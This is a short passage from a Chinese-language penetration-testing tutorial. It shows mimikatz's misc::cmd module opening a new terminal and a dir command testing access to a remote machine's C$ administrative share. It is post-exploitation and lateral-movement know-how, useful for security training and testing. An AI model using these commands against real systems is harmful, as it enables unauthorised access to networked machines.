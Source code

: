 [![](assets/1706496056-c04ff0baf47757a32e07ef842048a73b.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172312053-335059167.png)

#### 3、开启当前权限的管理员终端

使⽤ mimikatz 的 `misc::cmd` 模块，打开打开⼀个新窗⼝验证我们当前权限。

```plain
misc::cmd
dir \\192.168.126.10\c$
```

[![](assets/1706496056-f515cb41992cfaa4a58b659b0a516c9e.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172312626-1339677555.png)
